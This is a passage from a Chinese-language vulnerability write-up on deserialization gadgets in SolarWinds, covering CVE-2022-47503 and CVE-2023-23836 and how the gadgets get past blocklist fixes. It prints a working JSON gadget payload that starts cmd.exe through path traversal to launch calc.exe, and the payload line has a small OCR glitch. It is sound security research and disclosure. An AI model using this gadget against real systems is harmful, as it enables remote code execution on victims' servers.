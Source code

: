 代码段 27 WorkerProcessWCFProxy 构造函数

在 \[1\] 处，定义了构造函数。有四个输入参数，我们可以通过反序列化控制所有这些参数（请参阅前一章）。

在 \[2\] 处，调用了 `CreateWorkerController` 方法。

```plain
private void CreateWorkerController() 
{ 
    this.workerController = new 
WorkerControllerWCFProxy(this.workerConfiguration, this.operationMode, 
this.assemblyName); 
} 
```

代码段 28 CreateWorkerController

可以看到，我们正在调用 `WorkerControllerWCFProxy` 的构造函数。这与我们在前一章中滥用的构造函数相同。

实际上，这里我们有第二个反序列化小工具，因为有一个不同的类正在被反序列化。在 CVE-2022-47503 中，我滥用了 `WorkerControllerWCFProxy` 类。在这里，我正在滥用 `WorkerProcessWCFProxy` 类。如果通过扩展黑名单修复了第一个漏洞，我们仍然可以使用第二个类。

恶意小工具示例：

```plain
{ 
    "$type": "SolarWinds.JobEngine.Engine.WorkerProcessWCFProxy,  
SolarWinds.JobEngine, Version=2022.4.0.0, Culture=neutral, PublicKeyToken=null", 
    "maxConcurrentJobs": 5, 
     "workerConfiguration": { 
        "$type": "SolarWinds.JobEngine.WorkerConfiguration, SolarWinds.JobEngine,  
Version=2022.4.0.0, Culture=neutral, PublicKeyToken=null", 
         "WorkerType": 1, 
        "CommandLine":  
"..\\..\\..\\..\\..\\..\\..\\..\\..\\..\\..\\..\\..\\Windows\\System32\\cmd.exe", 
         "CommandArguments": "/c calc.exe & "30 
    }, 
    "operationMode": 0, 
    "assemblyName": "whatever" 
}
```

代码段 29 WorkerProcessWCFProxy gadget

#### 1.9 SolarWinds平台 - 第4次绕过 - CVE-2023-23836

前两个小工具是基于一个简单的想法，它允许我们调用 `Process.Start` 方法。当攻击者控制输入参数时，这很容易被发现并且明显是恶意的。

现在，让我们想象一下，如果找到了一个反序列化小工具，它允许我们操控产品的功能，例如：

-   修改配置（实际上，我找到了一些产品的反序列化小工具，允许修改某些插件的配置）。
-   添加/修改用户。
-   触发一些产品特定的功能。
-   等等。

我们都倾向于寻找简单的小工具（就像前两个描述的小工具）。然而，我们总是需要关注反序列化可能引发的不同行为，这可能会带来漏洞风险。

这个反序列化小工具基于 `SolarWinds.IPAM.Storage.Credentials.CredentialInitializer` 类。
